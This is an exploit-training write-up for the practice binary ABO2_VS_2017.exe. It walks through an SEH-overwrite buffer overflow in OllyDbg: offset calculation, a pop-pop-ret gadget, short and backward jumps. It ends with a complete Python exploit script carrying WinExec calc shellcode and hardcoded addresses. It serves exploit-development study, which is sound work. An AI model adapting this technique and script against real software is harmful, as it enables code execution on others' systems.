**ABO2_VS_2017.exe**

The goal is executing the calculator.



There is a **gets** in the function **main**, but at the end, instead of a **ret** instruction we find an **exit()**. This means that the program ends here before returning from the function.



In this case, we do not have any return address to overwrite, so what we can do is overwrite the structured exception handler **(SEH)**.

Let’s see it in **ollydbg:**

We place a **bp** after **gets** and before **exit()**.



In the stack we will see the string we have sent, and in this way, we can calculate the amount of bytes necessary to reach the **SEH** and overwrite it.



In this case it’s **0x4D4 + 4 + 1**.



**40B170** handles the crash, in the stack we see it at offset **0x43C**



When we fill the buffer, that value will be overwritten.

Let’s make the program crash.

After crashing, we see that the **EDI** register points to the beginning of our **payload**.

****

So we will replace the address of **seh** to one that points to a **JPM EDI** or similar.



I made it crash but it installed the same **SEH** again.

****

Instead of a **call edi**, we will have to search for a **pop** **pop ret**, because upon returning from **SEH**, we always have a pointer to our buffer in **ESP+8**



By following **esp+8**  we can see our **Payload**



Here we find in **POP POP RET**

****

Upon executing **RET** we will jump to the **payload** above **0x41414141**,

****

In **SEH** we have the pointer to **POP POP RET**, so we need to avoid executing it. To do so, we need to jump over using the bytes **EB 06** (a jump 4 bytes forward).



At this point, we have another problem, which is that the shellcode doesn’t fit below the SEH, so the solution is to write it at the beginning and once SEH is overwritten, jump backwards.

These are the opcodes for the jump

As the exception handler is executed over and over, the program never finishes and endlessly executes the shellcode, so to force it to finish, we added a call to **\_exit()**.

The script would look like this:

| import sys import binascii from subprocess import Popen, PIPE   winexec_calc_shellcode = b'31c94931d2e347526863616c6389e65256648b72308b760c8b760cad8b308b7e188b5f3c8b5c1f788b741f2001fe8b4c1f2401f90fb72c5142ad813c0757696e4575f18b741f1c01fe033caeffd7' winexec_calc_shellcode = binascii.unhexlify(winexec_calc_shellcode)  size_crash = 0xE6 size_to_next_seh = 0x438 next_seh = b"\\xEB\\x06\\x90\\x90" \# Un JMP para evitar pisar el seh  current_seh = b"\\x31\\x12\\x40\\x00" \# Salta al pop pop ret jmp_to_payload = b"\\xE9\\xBB\\xFB\\xFF\\xFF\\x90" \# Salta al payload jmp_to_exit = b"\\xE9\\xB1\\x14\\x26\\x00\\x90" \# JMP 40102C  buffer = winexec_calc_shellcode  buffer += jmp_to_exit + b"\\x90" \* (size_to_next_seh - len(winexec_calc_shellcode) - len(jmp_to_exit)) buffer += next_seh buffer += current_seh buffer += jmp_to_payload buffer += b"\\x90" \* size_crash \# Size para de desbordar la pila  payload = buffer  p1 = Popen("ABO2_VS_2017.exe", stdin=PIPE) print ("PID: %s" % hex(p1.pid)) print ("Enter para continuar")  p1.communicate(payload) p1.wait() input() |
|-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|

****
